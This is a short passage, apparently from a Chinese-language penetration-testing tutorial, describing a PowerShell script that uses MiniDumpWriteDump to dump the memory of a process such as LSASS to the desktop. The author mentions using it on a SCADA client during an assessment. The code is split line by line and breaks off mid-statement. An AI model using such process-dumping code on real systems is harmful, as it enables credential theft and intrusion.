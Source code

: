 如你所想，我们可以针对任何我们想要的进程。在一次评估中，我获得了对 SCADA 设备的访问，并使用这段脚本从管理工业过程的专有客户端中转储了内存。我们为 **$lsass** 的每个属性声明了变量，并定义了转储文件的目标位置——本地桌面：

```
$FileStream = New-Object IO.FileStream($ProcessFileName, [IO.FileMode]::Create)
```

```
$Result = $MiniDumpWriteDump.Invoke($null, @(
```

```
    $ProcessHandle,
```

```
    $ProcessId,
```

```
    $FileStream.SafeFileHandle,
```

```
    $MiniDumpfull,
```

```
    [IntPtr]::Zero,
```

```
    [IntPtr]::Zero,
```

```
    [IntPtr]::Zero))
```

```
$FileStream.Close()
```

```
If (-not $Result) {
```

```
    $Exception = New-Object ComponentModel.Win32Exception
```

```
    $ExceptionMessage = "$($Exception.Message) ($($ProcessName):$($ProcessId))"
```

```
    Remove-Item $ProcessFileName -ErrorAction SilentlyContinue
```

```
    Throw $ExceptionMessage
```

```
} Else {
```
